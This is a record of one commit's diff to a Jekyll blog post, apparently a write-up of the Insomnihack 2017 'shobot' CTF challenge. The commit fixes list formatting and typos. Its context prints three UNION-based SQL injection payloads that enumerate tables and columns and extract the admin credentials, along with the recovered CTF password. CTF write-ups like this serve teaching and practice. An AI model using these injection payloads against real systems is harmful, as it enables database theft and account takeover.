

Before and after one commit to mtps3/Mtps3.github.io, a Jekyll site: the page built from _posts/2017-01-22-insomnihack-shobot.md, in a window 1280 px wide and 900 px high, scrolled down 2921 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fixed writeup (shobot@Insomnihack)

````diff
--- a/_posts/2017-01-22-insomnihack-shobot.md
+++ b/_posts/2017-01-22-insomnihack-shobot.md
@@ -137,32 +137,32 @@ web server really returned our values, and with other values it did not work
 
 From here, it was more or less a straightforward SQLi:
 
-1. Finding the right table:
+- 1. Finding the right table:
 
 ```
 artid=' AND 1=2 UNION SELECT 1,2,3,TABLE_NAME,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%user%' ORDER BY rand(); -- x"
 ```
 
-2. Finding the right columns:
+- 2. Finding the right columns:
 
 ```
 artid=' AND 1=2 UNION SELECT 1,2,3,COLUMN_NAME,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME =
 'shbt_user' ORDER BY rand(); -- x
 ```
 
-3. Extracting the admin's username and pw:
+- 3. Extracting the admin's username and pw:
 
 ```
 artid=' AND 1=2 UNION SELECT 1,2,3,shbt_userpassword,shbt_username FROM shbt_user ORDER BY rand(); -- x"}
 ```
 
 Which gave us *sh0b0t4dm1n* with the pw *N0T0R0B0TS$L4V3Ry* of the columns
-*shbt_username* and *shbt_userpasswordin* in the table *shbt_user*. Note that we
-used, for convenience reasons, *ORDER BY rand()* in our injections. Luckily we
+*shbt_username* and *shbt_userpassword* in the table *shbt_user*. Note, that we
+used, for convenience, *ORDER BY rand()* in our injections. Luckily we
 did not need many tries ;)
 
 Now, we just navigated to the admin's login page
-(http://shobot.teaser.insomnihack.ch/?page=admin), which was stated also in the
+(http://shobot.teaser.insomnihack.ch/?page=admin), which was also stated in the
 page's source and read the flag on the web page :)
 
 ```
````
